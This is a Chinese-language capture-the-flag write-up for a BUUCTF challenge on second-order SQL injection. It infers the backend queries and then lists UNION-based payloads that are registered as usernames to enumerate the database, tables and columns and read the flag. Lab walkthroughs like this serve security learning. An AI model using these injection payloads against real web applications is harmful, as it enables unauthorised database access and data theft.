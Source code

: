 # October 2019 Twice SQL Injection

## October 2019 Twice SQL Injection

## 考点

* 注册登录处的二次注入

## wp

看到链接是http://91074d2e-c159-41d3-94a5-47dc939e21bf.node4.buuoj.cn:81/?action=login

尝试`?action=php://filter/read=convert.base64-encode/resource=login`没有反应，那就走流程

有注册、登录和修改信息的功能，先注册用户试试，注册一个aaaaaa，登录可以看到info是有信息的，说明在登录查询之后还有个查询

```sql
select pass from users where name = 'aaa'
select info from users where name = 'aaa'
```

注册一个aaaaaa'，登录发现info变成空白，再注册aaa"，登录发现info又有信息了，可以猜一下后端的插入语句

```sql
insert into users (id,name,pass,info)
values (1,'aaa','aaa','something')
```

在修改info的时候，先改成123，看到返回123，更新完之后还有个查询

```sql
UPDATE users SET info = '123' WHERE name = 'aaa'
select info from users where name = 'aaa'
```

修改info尝试二次注入无果，再去注册登录处测试`bbb' union select database()#`&#x20;

```
insert into users (id,name,pass,info) values (1,'bbb\' union select database()#','aaa','something')
```

在info那个查询处&#x20;

```
select info from users where name = 'bbb' union select database()#'
```

注册

```
bbb' union select database()#
bbb' union select group_concat(table_name) from information_schema.tables where table_schema='ctftraining' #
bbb' union select group_concat(column_name) from information_schema.columns where table_name='flag'#
bbb' union select flag from flag #
```

## 总结

1. 如果感觉有多个二次注入的点，都试试
